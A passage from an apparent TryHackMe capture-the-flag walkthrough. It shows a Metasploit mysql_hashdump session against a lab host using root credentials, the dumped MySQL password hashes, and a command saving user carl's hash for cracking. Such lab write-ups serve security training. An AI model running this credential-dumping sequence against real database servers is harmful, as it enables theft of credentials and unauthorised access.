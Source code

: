 `auxiliary/scanner/mysql/mysql_hashdump`

Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?

```
msf5 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.91.253
RHOSTS => 10.10.91.253
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.91.253:3306     - Saving HashString as Loot: root:
[+] 10.10.91.253:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.91.253:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.91.253:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.91.253:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.91.253:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.91.253:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`carl`

Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:\*HASH to a text file on your local machine called "hash.txt". What is the user/hash combination string?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ echo -n '*EA031893AA21444B170FC2162A56978B8CEECE18' > hash.txt
```

`carl:*EA031893AA21444B170FC2162A56978B8CEECE18`
